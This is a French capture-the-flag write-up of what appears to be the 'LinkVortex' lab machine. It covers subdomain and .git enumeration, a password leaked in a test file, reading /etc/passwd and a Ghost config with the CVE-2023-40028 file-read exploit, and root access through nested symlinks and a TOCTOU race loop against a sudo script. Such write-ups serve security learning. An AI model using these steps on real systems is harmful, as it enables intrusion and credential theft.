

## Résumé
User: Répertoire .git exposé & CVE-2023-40028\
Root: Exploitation de liens symboliques imbriqués ou TOCTOU

## Enumeration
A l'aide d'un scan nmap, on identifie qu'un serveur web et SSH sont actifs.

$ nmap -Pn -p- 10.10.11.47 -v

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


## User
### Fuzzing


Le port 80 expose un site "BitByBit Hardware" utilisant Ghost CMS.



Après l’avoir ajouté à notre fichier `hosts`, on le fuzz et on découvre un sous-domaine : dev.linkvortex.htb

$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://linkvortex.htb -H "host: FUZZ.linkvortex.htb" -fs 230
<...>
dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 15ms]



Le fuzzing de ce sous-domaine révèle la présence d’un répertoire ```.git```.


$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://dev.linkvortex.htb/FUZZ
<...>
.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 15ms]
.git/HEAD               [Status: 200, Size: 41, Words: 1, Lines: 2, Duration: 18ms]
.git/logs/              [Status: 200, Size: 868, Words: 59, Lines: 16, Duration: 19ms]
.git/config             [Status: 200, Size: 201, Words: 14, Lines: 9, Duration: 17ms]
.git/index              [Status: 200, Size: 707577, Words: 2171, Lines: 2172, Duration: 17ms]
index.html              [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 16ms]
server-status           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 19ms]


On peut alors utiliser l'outil [GitHack](https://github.com/lijiejie/GitHack) pour récupérer une partie du code source original.


$ ./GitHack.py http://dev.linkvortex.htb/.git/
<...>
$ tree dev.linkvortex.htb 
dev.linkvortex.htb
├── Dockerfile.ghost
└── ghost
    └── core
        └── test
            └── regression
                └── api
                    └── admin
                        └── authentication.test.js

7 directories, 2 files


Parmi les fichiers récupérés, on a `authentication.test.js`, qui contient le mot de passe de l'administrateur:


$ less ghost/core/test/regression/api/admin/authentication.test.js
<...>
        it('complete setup', async function () {
            const email = 'test@example.com';
            const password = 'OctopiFociPilfer45';

            const requestMock = nock('https://api.github.com')
                .get('/repos/tryghost/dawn/zipball')
                .query(true)
                .replyWithFile(200, fixtureManager.getPathForFixture('themes/valid.zip'));
<...>


On peut utiliser ce mot de passe pour accéder à l'interface d'administration(on devine facilement le username *admin@linkvortex.htb*) en s'y connectant via http://linkvortex.htb/ghost/#/signin, mais ça ne nous permet pas d'aller plus loin.

Cependant, dans le fichier `Dockerfile.ghost`, on trouve la version de Ghost : 5.58.0, qui est vulnérable à la [CVE-2023-40028](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-40028).\
Cette vulnérabilité nous permet de lire un fichier arbitraire.

$ cat Dockerfile.ghost         
FROM ghost:5.58.0
<...>


On peut tester l'exploit suivant:[CVE-2023-40028](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) pour lire le fichier  /etc/passwd.


$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<...>


Quel autre fichier intéressant peut-on lire ? En regardant à nouveau le fichier `Dockerfile.ghost`, on trouve le chemin d’un fichier de configuration: `/var/lib/ghost/config.production.json`.


$ cat Dockerfile.ghost         
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json
<...>


La lecture de ce fichier nous donne les identifiants de l'utilisateur `bob`.


$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
<...>
"mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }


Avec ces identifiants, on se connecte en SSH et on récupère le flag utilisateur.

$ ssh bob@linkvortex.htb 
bob@linkvortex:~$ pwd; ls
/home/bob
user.txt


## Root
### Liens symboliques

En exécutant la commande `sudo -l`, on voit que bob peut exécuter le script ```clean_symlink.sh``` en tant que root sans mot de passe:

bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png


Si on regarde la seconde partie du script, on constate qu’il vérifie la présence de ```etc``` ou ```root```  dans le chemin ciblé par le lien symbolique. Si ces termes sont détectés, le lien est supprimé.\
Sinon, le .png est déplacé dans ```/var/quarantined```, et, si la variable d’environnement `CHECK_CONTENT` est définie à `true`, le contenu du fichier nous est renvoyé.


bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi


On peut utiliser deux approches pour contourner ces vérifications et lire root.txt : les liens symboliques imbriqués ou en exploitant la race condition entre la verification du lien symbolique et la lecture de celui-ci.

### Methode 1: Liens symboliques imbriqués
On crée deux liens symboliques, link1.png vers link2.png et link2.png vers /root/root.txt.\
De cette façon, link1 contourne la vérification des termes.

/home/bob/link1.png -> /home/bob/link2.png -> root.txt


bob@linkvortex:~$ export CHECK_CONTENT=true
bob@linkvortex:~$ ln -s /root/root.txt link2.png
bob@linkvortex:~$ ln -s $PWD/link2.png link1.png
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link1.png
Link found [ link1.png ] , moving it to quarantine
Content:
6<...>3


### Methode 2: TOCTOU 
Le script vérifie si le fichier est un lien symbolique via ```/usr/bin/test -L link.png```. Ensuite, il utilise ```basename``` et ```readlink``` en se basant sur cette hypothèse.\
Entre cette vérification et la lecture du lien, on peut exploiter la vulnérabilité en interchangeant continuellement la cible du lien symbolique de ```/tmp/random``` à ```/root/root.txt```.

Dans un premier terminal, on exécute une boucle qui interchange la cible du lien.\
Dans un autre terminal, on exécute en boucle le script.

Si le timing est bon, le script renvoie le contenu de `root.txt`.\
Cette vulnérabilité est connue sous le nom de TOCTOU (Time-of-Check to Time-of-Use).\
En s'aidant de cet [article](https://brandon-t-elliott.github.io/tic-tac), on peut essayer d’accéder à `root.txt`.

Terminal 1

bob@linkvortex:~$ timeout 5s bash -c 'while true; do ln -sf $PWD/random $PWD/link.png; ln -sf /root/root.txt $PWD/link.png; done'
ln: failed to create symbolic link '/home/bob/link.png': File exists
ln: failed to create symbolic link '/home/bob/link.png': File exists
<...>


Terminal 2

bob@linkvortex:~$ timeout 2s bash -c 'while true; do sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link.png; done'
Link found [ link.png ] , moving it to quarantine
Content:
6<...>3
! Trying to read critical files, removing link [ link.png ] !
Link found [ link.png ] , moving it to quarantine
Content:
6<...>3
<...>



## Ressources
> [CVE-2023-40028 exploit](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)\
> [GitHack](https://github.com/lijiejie/GitHack)\
> [CTF Writeup: picoCTF 2023 - "Tic-Tac"](https://brandon-t-elliott.github.io/tic-tac)